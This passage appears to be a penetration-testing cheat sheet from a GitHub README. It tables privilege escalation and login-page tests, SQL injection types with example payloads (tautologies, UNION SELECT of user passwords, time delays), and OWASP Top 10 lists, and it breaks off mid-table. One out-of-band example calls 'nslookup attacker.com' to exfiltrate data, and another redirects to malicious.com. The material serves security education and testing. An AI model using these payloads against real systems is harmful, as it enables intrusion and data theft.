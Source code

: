 | **Methods of Privilege Escalation** | Techniques include exploiting vulnerabilities in user roles, accessing unauthorized resources, privilege misconfigurations, or bypassing role-based access controls. | `admin`, `role=superuser` |
| **Login Page Testing**           | Tests include:<br>- **SQL Injection**: Inject SQL code into login fields.<br>- **Host Header Injection**: Manipulate headers to redirect or inject content.<br>- **URL Redirection**: Test for unauthorized redirection.<br>- **Username Enumeration**: Check if usernames are exposed.<br>- **Rate Limiting/Brute Force**: Attempt to bypass rate limits to perform brute force attacks. | `admin' OR '1'='1`, `http://example.com?redirect=http://malicious.com`, `admin@domain.com` |

### SQL Injection and Its Types


| **Type**                       | **Sub-Type**                  | **Description**                                                                                      | **Example Commands**                                  |
|-------------------------------|-------------------------------|------------------------------------------------------------------------------------------------------|-----------------------------------------------------|
| **In-band SQL Injection**      |                               | Uses the same communication channel for both launching the attack and retrieving results              |                                                     |
|                                | a) **Union-based SQLi**       | Utilizes the SQL UNION operator to combine the results of multiple SELECT queries into a single result set | `1 UNION SELECT username, password FROM users, ' UNION SELECT null, null--, ' UNION SELECT null, null, null--, ' UNION SELECT null, null, null, null--` |
|                                | b) **Error-based SQLi**       | Injects SQL code that triggers database errors, potentially revealing information about the database schema or contents | `AND 1=1--, SELECT 1/0--, AND 1=0--, AND 1=1#, OR 1=1, OR x=x` |
| **Blind SQL Injection**        |                               | The attacker does not see the result of the query directly but infers information from the application's responses |                                                     |
|                                | a) **Boolean-based Blind SQLi** | Sends SQL queries that result in true or false responses to infer data based on the application's behavior | `' OR '1'='1, ' OR 1=1--, " OR "" = ", " OR 1 = 1--, ' OR '' = ', ' OR 1=1 AND 'a'='a` |
|                                | b) **Time-based Blind SQLi**  | Introduces delays in SQL queries to infer data based on the application's response time              | `SLEEP(5)--, " OR SLEEP(5)--, ' OR SLEEP(5)--, WAITFOR DELAY '00:00:10'--` |
| **Out-of-band SQL Injection**  |                               | Uses alternative communication channels (such as DNS or HTTP) to exfiltrate data                      | `http://example.com/somepage.php?id=1; nslookup attacker.com` |
| **Second-order SQL Injection** |                               | The malicious payload is stored within the application's database and executed later when certain conditions are met | `INSERT INTO users (username, password) VALUES ('test', 'test'); -- The stored payload executes later when the application processes the data` |




#### OWASP TOP 10: Web and Mobile:
| **2021 Web Top 10**                            | **Mobile Top 10 2024**             |
|-----------------------------------------------|------------------------------------------|
| A01:2021-Broken Access Control                | M1: Improper Credential Usage            |
| A02:2021-Cryptographic Failures               | M2: Inadequate Supply Chain Security     |
| A03:2021-Injection                            | M3: Insecure Authentication/Authorization|
| A04:2021-Insecure Design                      | M4: Insufficient Input/Output Validation|
| A05:2021-Security Misconfiguration           | M5: Insecure Communication               |
| A06:2021-Vulnerable and Outdated Components  | M6: Inadequate Privacy Controls          |
| A07:2021-Identification and Authentication Failures| M7: Insufficient Binary Protections |
| A08:2021-Software and Data Integrity Failures | M8: Security Misconfiguration           |
| A09:2021-Security Logging and Monitoring Failures| M9: Insecure Data Storage            |
| A10:2021-Server-Side Request Forgery (SSRF)*  | M10: Insufficient Cryptography          |

<br>

#### OWASP top : API and Thick Client

| **OWASP Top 10 API Security Risks**                     | **2023 OWASP Desktop App Security Top 10**          |
|--------------------------------------------------------|-----------------------------------------------------|
| API1:2023 Broken Object Level Authorization            | DA1 - Injections                                    |
| API2:2023 Broken Authentication                        | DA2 - Broken Authentication & Session Management    |
| API3:2023 Broken Object Property Level Authorization   | DA3 - Sensitive Data Exposure                      |
| API4:2023 Unrestricted Resource Consumption           | DA4 - Improper Cryptography Usage                  |
| API5:2023 Broken Function Level Authorization         | DA5 - Improper Authorization                       |
| API6:2023 Unrestricted Access to Sensitive Business Flows | DA6 - Security Misconfiguration                |
| API7:2023 Server Side Request Forgery                  | DA7 - Insecure Communication                       |